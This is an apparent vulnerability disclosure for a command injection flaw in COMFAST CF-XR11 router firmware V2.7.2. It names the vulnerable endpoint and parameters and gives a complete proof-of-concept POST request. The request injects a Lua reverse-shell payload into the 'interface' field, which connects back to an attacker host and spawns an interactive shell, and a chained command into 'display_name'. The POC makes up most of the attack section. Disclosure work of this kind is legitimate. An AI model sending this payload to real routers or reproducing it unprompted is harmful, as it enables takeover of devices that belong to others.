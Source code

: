 # CVE-ID

none

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_415588`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `interface`  and `display_name` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=update_interface_png`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_415588`, the program uses function `blobmsg_parse` to obtain the content of parameter `interface`, `display_name` which are sent by `POST` request. On line 22, the attacker can complete command execution by controlling the `interface` or `display_name` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=update_interface_png` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=update_interface_png HTTP/1.1
Host: 192.168.0.1
Content-Length: 181
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-65dafb23
Connection: close

{"interface":" `lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`",
	"display_name":"&& echo 1"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)


